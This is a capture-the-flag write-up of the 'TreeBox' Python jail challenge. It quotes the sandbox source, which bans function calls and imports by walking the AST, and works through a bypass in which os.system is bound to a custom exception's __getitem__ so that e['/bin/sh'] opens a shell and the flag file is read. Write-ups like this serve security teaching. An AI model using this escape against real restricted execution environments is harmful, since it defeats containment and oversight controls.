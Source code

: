 # TreeBox

## Challenge Description
**Category**: Sandbox

**Description**: I think I finally got Python sandboxing right.

The challenge was a pyjail-style sandbox, that needed to "escaped" from - regain the ability to execute arbitrary code (and read the flag file) given a VERY restrictive environment. As usual with pyjails, the source code was provided:

```python
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
```

## Code Evaluation
Looking at the source code, the program checks the input code before executing it - only if the code is labeled 'safe' by ```verify_secure```,
that uses the ```ast``` library (**A**bstract **S**yntax **T**rees) to parse the input.

Essentially, both functions calls and import statements are banned, because they match either of ```ast.Call, ast.Import, ast.ImportFrom```

Note: The program uses structured pattern matching, so we know that it is running on Python 3.10+

## Thought Process

While imports can be avoided, function calls are a fundemental part of any programming language.
At first glance, the objective of reading the flag without calling any function seems impossible.

This means that the challenge must be solved by:
1. Somehow managing to read the flag file without using calls or import statements (unlikely)
2. Figuring out a way to fool ```ast``` by calling functions indirectly, so it won't notice the function calls made by the program

As far as I know, it's impossible to access the file system or the shell without invoking any functions, so I tried to change the angle of thinking about this challenge to the second way.

I needed to find the 'trickable' part of the program, as a chain is only as strong as its weakest link.
A few options come to mind:
1. Python's match-case
2. ast parser

I didn't believe Python's match-case to be the weak part, as that would be a fatal flaw in Python itself, and probably not the intention of the challenge authors anyway (even though it is *possible*, see Python2's ```input()``` RCE vulnerability).

That leaves tricking the ast parser by calling functions indirectly (without invoking them using parentheses).

## Dunder Methods To the Rescue!

One way to achieve indirect function calls, is dunder (double underscore) methods. These are functions that help creating classes in Python, and are normally used in order to make contructors, overload operators change the behavior of Python built-in functions on the classe's objects, and more.

## Constructing a Solution Payload
At first, this doesn't seem to be of much help - to create an object (and invoke ```__init__``` or another dunder method).
After putting some thought into it, I came to realize that exceptions are classes too! A quick check reveals that it is possible to raise exceptions without any arguments.
Meaning:

```raise Exception``` is allowed, but ```raise Exception("Can I pass an argument?")``` would match to ```ast.Call```.

Knowing all of this, we can create (and raise) a custom exception (a class that inherits from ```Exception```), catch the exception
and get access to the exception object, already equipped with the dunder method we created.

So our theoretical payload would look something like this:
```python
class CustomException(Exception):
  pass # TODO: add a dunder method to use when handling the exception
  
 try:
   raise CustomException
 except CustomException as e:
   pass # TODO: use the exception object (e)
```

At this point, there are several approaches to what dunder method to use to inderectly call a function. One of the most common ones is to overload one of the operators, for example, the plus operator (+) using the ```__add__``` method.

My team and I chose to use ```__getitem__```.
```__getitem__``` is the function that is being called when looking for a value that matches a key in a dictionary.

For instance, in the following code snippet, ```__getitem__``` is called to retrieve the value matching the key 'a':
```python
d = {'a': 1, 'b': 2}
d['a']
```
By overriding ```__getitem__``` in our custom exception with another function, we can get ANY function to execute with one argument - whatever we put in the square brackets as a 'key'.

Since the ```os``` module is loaded into the running namespace, we can override ```__getitem__``` with os.system and thus execute any shell command.

This brings us to the final attack payload:
```python
class CustomException(Exception):
	__getitem__ = os.system

try:
	raise CustomException
except CustomException as e:
	e["/bin/sh"]
```
Which will end up executing: ```os.system("/bin/sh")```, providing us an unlimited shell.
```$ cat flag
CTF{CzeresniaTopolaForsycja}
```
